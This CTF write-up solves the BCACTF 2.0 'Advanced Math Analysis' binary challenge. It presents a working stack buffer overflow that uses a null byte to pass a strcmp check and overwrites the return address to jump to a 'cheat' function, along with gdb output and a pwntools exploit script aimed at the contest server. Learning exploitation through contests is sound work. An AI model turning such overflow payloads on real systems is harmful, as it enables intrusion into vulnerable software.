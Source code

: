 # Advanced Math Analysis

#### Category : binex
#### Points : 200 points (127 solves)
#### Author : Edward Feng

## Challenge
The advanced course covers the same content as the non-advanced course and then some. Specifically, it also teaches some units on logic and geometry.

Now, I'm personally not the biggest fan of geometry, so I'll spare you from that. But you'll definitely need to spend some time _logic_ing this challenge out!

-   [adv-analysis.c](https://objects.bcactf.com/bcactf2/adv-analysis/adv-analysis.c)
-   [adv-analysis](https://objects.bcactf.com/bcactf2/adv-analysis/adv-analysis)
-   `nc bin.bcactf.com 49156`

## Solution
Looking at `adv-analysis.c`, we see that it is similar to [Math Analysis](https://github.com/p1xxxel/ctf-writeups/blob/main/2021/BCACTF%202.0/Math%20Analysis) in the way that there is a `cheat` function that we need to go to by overwriting the return address.

The difference is that in this case there is also a `strcmp` check for `"i pledge to not cheat"`.

#### Overwriting Return Address
So to overwrite the return address, our payload should first contain `"i pledge to not cheat"` followed by a null character(`\x00`) and padding and lastly the memory address we want.

Experimenting within gdb, this is what worked : 
```bash
gef➤  run < <(python -c "print('i pledge to not cheat'+'\x00'+'A'*50 + '123456')")
gef➤  c
Continuing.
Welcome to the more advanced math class!
Unlike the folks in regular analysis, you'll have to put in more effort.
That's because this class has a strict anti-cheating defense.
Ha, take that!
We have to maintain the BCA reputation somehow, y'know.
>
gef➤  info frame
Stack level 0, frame at 0x7fffffffe6e0:
 rip = 0x40134b in main; saved rip = 0x363534333231
 Arglist at 0x7fffffffe6d0, args:
 Locals at 0x7fffffffe6d0, Previous frame's sp is 0x7fffffffe6e0
 Saved registers:
  rbp at 0x7fffffffe6d0, rip at 0x7fffffffe6d8
```

#### Finding target memory address
As we are now able to overwrite the return address to anything we want, we need to find the memory address of the `cheat` function in order to get the flag.
```bash
gef➤  disass cheat
Dump of assembler code for function cheat:
   0x0000000000401216 <+0>:	endbr64
```
So instead of `123456` in the previous payload, we need to give `/x16/x12/x40/x00/x00/x00`

#### Getting flag
With all that information, we can write a [get_flag.py](https://github.com/p1xxxel/ctf-writeups/blob/main/2021/BCACTF%202.0/Advanced%20Math%20Analysis/get_flag.py) script to get the flag.
```python
from pwn import *
host = "bin.bcactf.com"
port = 49156
payload = 'i pledge to not cheat'+'\x00'+'A'*50 + '\x16\x12\x40\x00\x00\x00'
s = remote(host,port)
(s.recvuntil(b">"))
s.sendline(payload)
print(s.recvuntil("bcactf{")[-7:]+s.recvuntil("}"))
```
```bash
$ python3 get_flag.py
[+] Opening connection to bin.bcactf.com on port 49156: Done
b'bcactf{corresponding_parts_of_congurent_triangles_are_congruent_ie_CPCCTCPTPPTCTC}'
[*] Closed connection to bin.bcactf.com port 49156
```

flag : `bcactf{corresponding_parts_of_congurent_triangles_are_congruent_ie_CPCCTCPTPPTCTC}`